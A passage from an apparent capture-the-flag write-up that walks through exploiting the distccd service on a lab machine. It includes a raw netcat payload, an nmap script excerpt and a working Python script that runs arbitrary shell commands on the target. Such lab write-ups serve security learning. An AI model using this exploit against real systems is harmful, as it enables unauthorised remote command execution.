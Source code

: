 I tried changing the command, and it just hung:

```

root@kali# nc 10.10.10.3 3632
DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV0000000csh -c '(whoami)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A

```

Looking back at the `nmap` script, I see this block in the middle:

```

  local cmds = {
    "DIST00000001",
    ("ARGC00000008ARGV00000002shARGV00000002-cARGV%08.8xsh -c " ..
    "'(%s)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002" ..
    "-oARGV00000006main.o"):format(10 + #arg_cmd, arg_cmd),
    "DOTI00000001A\n",
  }

```

There are two things filled in. First, 8 hex digits of the length of the command + 10 (I’m guessin the 10 being `sh -c '(` and `')`.) Then the command.

I wrote a quick Python script to exploit this:

```

#!/usr/bin/env python3

import socket
import sys

if len(sys.argv) != 4:
    print(f"{sys.argv[0]} [ip] [port] [command]")
    sys.exit(1)
_, ip, port, cmd = sys.argv
mask = "0xdffdx0"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, int(port)))
full_cmd = f"sh -c '(echo -n {mask};{cmd};echo -n {mask})'"
payload = f"""DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV{len(full_cmd):8x}{full_cmd}ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-               oARGV00000006main.oDOTI00000001A"""
s.send(payload.encode())
resp = s.recv(4096)
print(resp.decode(errors="ignore").split(mask)[1].strip())

```

The script is very simple. It gets an IP, port, and command from arguments. Then it creates the payload string using the input command. Looking at the results coming back, I want a reliable way to pull out the command output. It looks like it may always start the same number of bytes in, but to be sure, I’ll have the command `echo` a unique mask before and after the input command, and then use that to split and find the output.
